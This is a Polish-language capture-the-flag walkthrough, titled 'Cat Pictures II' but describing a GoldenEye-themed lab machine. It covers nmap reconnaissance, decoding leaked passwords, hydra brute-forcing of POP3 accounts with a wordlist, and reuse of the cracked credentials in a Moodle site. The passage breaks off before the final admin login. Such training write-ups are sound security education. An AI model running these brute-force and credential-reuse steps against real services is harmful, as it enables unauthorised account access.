# Cat Pictures II
IP=10.10.63.124

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -p- 10.10.63.124
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-11 04:54 EDT
Nmap scan report for 10.10.63.124
Host is up (0.048s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE
25/tcp    open  smtp
80/tcp    open  http
55006/tcp open  unknown
55007/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 529.90 seconds
```

Przeprowadźmy bardziej szczegółowy skan:

```
sudo nmap -p 25,80,55006,55007 -sC -sV 10.10.63.124
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-11 05:05 EDT
Nmap scan report for 10.10.63.124
Host is up (0.049s latency).

PORT      STATE SERVICE  VERSION
25/tcp    open  smtp     Postfix smtpd
|_smtp-commands: ubuntu, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2018-04-24T03:22:34
|_Not valid after:  2028-04-21T03:22:34
|_ssl-date: TLS randomness does not represent time
80/tcp    open  http     Apache httpd 2.4.7 ((Ubuntu))
|_http-title: GoldenEye Primary Admin Server
|_http-server-header: Apache/2.4.7 (Ubuntu)
55006/tcp open  ssl/pop3 Dovecot pop3d
|_pop3-capabilities: SASL(PLAIN) PIPELINING USER TOP UIDL AUTH-RESP-CODE RESP-CODES CAPA
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-04-24T03:23:52
|_Not valid after:  2028-04-23T03:23:52
55007/tcp open  pop3     Dovecot pop3d
|_pop3-capabilities: AUTH-RESP-CODE TOP STLS SASL(PLAIN) PIPELINING CAPA USER RESP-CODES UIDL
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2018-04-24T03:23:52
|_Not valid after:  2028-04-23T03:23:52

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.06 seconds
```

Zostały wykryte 4 porty.

## Skanowanie

### Port 80
Rozpoczynamy od sprawdzenia portu 80:



Jest to strona nawiązująca do tytułu tego CTF'a. Sprawdzamy źródło strony:



Przechodzimy do skryptu terminal.js: 



Z ukrytej notatki otrzymujemy zakodowane hasło użytkownika Boris oraz kolejnego użytkownika - Natalya. Przechodzimy na stronę [CyberChef](https://gchq.github.io/CyberChef/) i dekoduejmy hasło:



```
boris:InvincibleHack3r
```

Przechodzimy do katalogu /sev-home/ i logujemy się za pomocą znalezionych danych do logowania:



Po zalogowaniu widzimy tajemniczą stronę:



W źródle strony znajdujemy notatkę, która potwierdza fakt istnienia dwóch użytkowników: Natalya i Boris



Próby zalogowania się na konto Borisa na innych serwisach zakończyły się niepowodzeniem. W związku z tym przeprowadzamy atak za pomocą hydry, w celu znalezienia innego hasła:

```
hydra -l Boris -P /usr/share/set/src/fasttrack/wordlist.txt 10.10.63.124 -s 55007 pop3
```



```
Boris:secret1!
```

Wykorzystujemy znalezione hasło, aby zalogować się do serwisu POP3 skonfigurowanego na porcie 55007, za pomocą narzędzia telnet:

```
telnet 10.10.63.124 55007
```



W serwisie znajdujemy wiadomości (emails). Dowiadujemy się z nich, że Natalya może złamać kody Borisa. Poznajemy też nową nazwę użytkownika - Xenia:



Kontynuujemy ataki za pomocą hydry, tym razem na użytkownika Natalya:

```
hydra -l Natalya -P /usr/share/set/src/fasttrack/wordlist.txt 10.10.63.124 -s 55007 pop3
```



```
Natalya:bird
```

Ponownie logujemy się do serwisu POP3 za pomocą narzędzia telnet:



Odczytujemy dostępne wiadomości, z których otrzymujemy dane do logowania użytkwonika Xenia oraz adres tajemniczej strony (severnaya-station.com/gnocertdir/):



```
xenia:RCP90rulez!
```

Dodajemy nowo poznaną stronę do pliku /etc/hosts:



Po przejściu na stronę widzimy, że jest to strona startowa Moodle:



Logujemy się do serwisu Moodle za pomocą znalezionych danych do logowania:

```
xenia:RCP90rulez!
```



Po przejściu w zakładkę wiadomości poznajemy nową nazwę użytkownika - Doak:



Przeprowadzamy atak za pomocą hydry, tym razem na użytkownika Doak:

```
hydra -l Doak -P /usr/share/set/src/fasttrack/wordlist.txt 10.10.63.124 -s 55007 pop3
```



```
Doak:goat
```

Ponownie logujemy się do serwisu POP3 za pomocą narzędzia telnet:



Odczytujemy dostępną wiadomość, z której otrzymujemy dane do logowania użytkownika dr_doak:



```
dr_doak:4England!
```

Logujemy się do serwisu Moodle:



W prywatnych plikach użytkownika dr_doak znajdujemy sekretną wiadomość skierowaną do James'a:



Pobieramy sekretną wiadomość:



```
/dir007key/for-007.jpg
```

Przechodzimy do ukrytej lokalizacji:



Pobieramy zdjęcie i rozpoczynamy analizę za pomocą narzędzia exiftool:



```
eFdpbnRlcjE5OTV4IQ==
```

W opisie zdjęcia widzimy zakodowaną wiadomość, którą dekodujemy przy użyciu [CyberChef'a](https://gchq.github.io/CyberChef/):



```
xWinter1995x!
```

Znaleziony ciąg znaków jest prawdopodobnie hasłem użytkownika admin. Spróbujmy zalgoować się do serwisu Moodle za pomocą znalezionych danych:

